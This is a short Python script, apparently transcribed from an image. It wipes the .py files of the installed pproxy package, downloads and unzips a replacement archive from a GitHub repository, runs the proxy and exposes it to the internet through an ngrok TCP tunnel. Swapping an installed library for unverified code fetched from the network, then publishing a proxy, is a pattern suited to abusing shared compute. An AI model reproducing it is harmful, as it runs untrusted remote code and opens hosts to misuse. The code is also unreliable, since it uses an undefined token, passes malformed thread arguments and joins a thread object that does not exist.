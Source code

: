 from time import *
import wget,os,threading
from pyngrok import ngrok
import threading
import subprocess

os.chdir('/usr/local/lib/python3.10/dist-packages/pproxy')
for i in os.listdir():
  if '.py' in i:
    os.remove(i)
wget.download('https://github.com/GrimsGreen/code/raw/main/6qxu6o.zip')
os.popen('unzip 6qxu6o.zip').read()

def run_proxy():
  process = subprocess.run('pproxy', shell=True, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
  print("Output:", process.stdout.decode())
  print("Errors:", process.stderr.decode())
  
def ngrok_thread(token):
    ngrok.set_auth_token(token)
    public_url = ngrok.connect("9090", "tcp") 
    print(" * ngrok tunnel \"{}\" -> \"http://127.0.0.1:{}/\"".format(public_url, 9090))
    return public_url

threading.Thread(target=run_proxy).start()
ngrok_thread = threading.Thread(target=ngrok_thread,args=token).start()
ngrok_thread.join()

